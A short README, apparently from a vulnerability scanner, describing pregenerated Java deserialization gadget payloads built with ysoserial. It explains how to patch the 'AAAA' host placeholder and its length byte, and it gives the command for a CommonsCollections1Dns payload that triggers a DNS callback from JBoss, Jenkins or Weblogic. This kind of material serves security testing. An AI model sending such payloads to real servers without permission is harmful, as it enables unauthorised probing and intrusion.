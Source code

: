 # Pregenerated gadget payloads

The files are generated with the tool [ysoserial](). The string "AAAA" is used to guide where the host is placed in the payload. The length must also be changed accordingly. (`\0x04AAAA`, `\0x08host.com`)

## CommonsCollections1Dns

Gadget used for JBoss, Jenkins and Weblogic.
```
java -jar ysoserial-0.0.5-SNAPSHOT-all.jar CommonsCollections1Dns http://AAAA > CommonsCollections1Dns
```
